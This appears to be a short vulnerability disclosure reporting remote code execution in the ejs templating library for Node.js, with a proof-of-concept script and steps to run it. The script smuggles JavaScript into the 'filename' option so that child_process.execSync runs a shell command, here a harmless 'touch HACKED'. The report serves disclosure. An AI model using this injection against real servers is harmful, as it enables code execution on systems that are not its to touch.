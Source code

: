 # Description

Remote Code Execution (RCE) in ejs

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
let ejs = require('ejs')
ejs.render('./views/test.ejs',{
    filename:'/etc/passwd\nfinally { this.global.process.mainModule.require(\'child_process\').execSync(\'touch HACKED\') }',
    compileDebug: true,
    message: 'test',
    client: true
})
```

2. Execute the following commands in terminal:

```
npm i ejs # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
